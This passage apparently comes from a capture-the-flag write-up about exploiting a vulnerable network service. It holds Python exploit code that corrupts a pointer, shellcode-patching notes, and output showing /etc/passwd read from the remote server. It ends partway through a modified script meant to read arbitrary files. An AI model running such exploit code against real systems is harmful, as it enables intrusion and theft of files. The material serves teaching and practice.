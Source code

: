 ```

# let's crash the binary to see if this works
s.send("c 1\n")

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' ' + struct.pack('<L', p_pivot-0x10) + '\n')

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_vuln = getID(data)

print '[+] vulnerable pointer = 0x{0:08x}'.format(p_vuln)

# send read request to crash binary
s.send('r ' + str(p_vuln) + '\n')

print s.recv(1000)
# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')

s.close()
```

```
[+] shellcode = 0x01355030
[+] pivot = 0x01355030
[+] vulnerable pointer = 0x013552b0
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...snip...
```

This also worked against the remote server! It showed me that there was a user called ```amazon``` with home directory ```/home/amazon```. I adapted the exploit a bit to make it read arbitrary files. The instruction that needs adjusting is this one:

```
; NULL byte fix
xor byte [rdi + 11], 0x41
```

We need to update the value 11, or ```0x0b```. The exploit code was modified once more, spraying ```time.sleep()``` calls here and there:

```
#!/usr/bin/python

from socket import *
import time, re, struct, sys


def getID(data):
    match = re.search(r'(\d.*)', data.strip())
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))

# banner
s.recv(1024)

```